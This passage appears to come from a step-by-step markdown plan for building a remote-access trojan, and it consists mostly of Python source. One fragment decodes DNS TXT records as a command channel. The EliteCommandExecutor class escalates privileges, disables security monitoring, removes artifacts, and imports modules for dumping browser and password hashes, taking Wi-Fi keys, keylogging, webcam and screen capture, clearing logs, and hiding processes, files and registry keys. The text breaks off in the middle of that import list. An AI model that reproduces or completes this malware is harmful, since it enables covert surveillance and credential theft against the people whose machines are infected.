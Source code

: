 ```python
                            if answer['type'] == 16:  # TXT record
                                return self._decode_dns_response(answer['data'])
        except:
            continue
    
    return None
```

### 1.2 Elite Command Execution Pipeline

**File:** Create `Core/elite_executor.py`

```python
import ctypes
import sys
import os
import threading
from contextlib import contextmanager

class EliteCommandExecutor:
    def __init__(self):
        self.commands = {}
        self._load_elite_commands()
        self.security_bypass = SecurityBypass()
    
    def execute(self, command, *args):
        """Execute command with full security bypass"""
        
        # Check if we need privilege escalation
        if self._needs_admin(command):
            if not self._is_admin():
                self._escalate_privileges()
        
        # Execute with security monitoring disabled
        with self.security_bypass.patch_all():
            try:
                # Get elite implementation
                if command in self.commands:
                    handler = self.commands[command]
                    result = handler(*args)
                    
                    # Clean up artifacts
                    self._clean_artifacts(command)
                    
                    return result
                else:
                    return {"error": f"Unknown command: {command}"}
            except Exception as e:
                return {"error": str(e)}
    
    def _load_elite_commands(self):
        """Load all elite command implementations"""
        # Import all elite command modules
        from elite_commands import (
            elite_ls, elite_cd, elite_pwd, elite_cat, elite_download,
            elite_upload, elite_rm, elite_mkdir, elite_rmdir, elite_mv,
            elite_cp, elite_systeminfo, elite_whoami, elite_hostname,
            elite_username, elite_privileges, elite_network, elite_processes,
            elite_vmscan, elite_installedsoftware, elite_hidecmd, elite_unhidecmd,
            elite_hideprocess, elite_unhideprocess, elite_hidefile, elite_unhidefile,
            elite_hidereg, elite_unhidereg, elite_chromedump, elite_hashdump,
            elite_wifikeys, elite_askpass, elite_ps, elite_kill, elite_shutdown,
            elite_restart, elite_screenshot, elite_screenrec, elite_webcam,
            elite_keylogger, elite_stopkeylogger, elite_viewlogs, elite_clearlogs,
```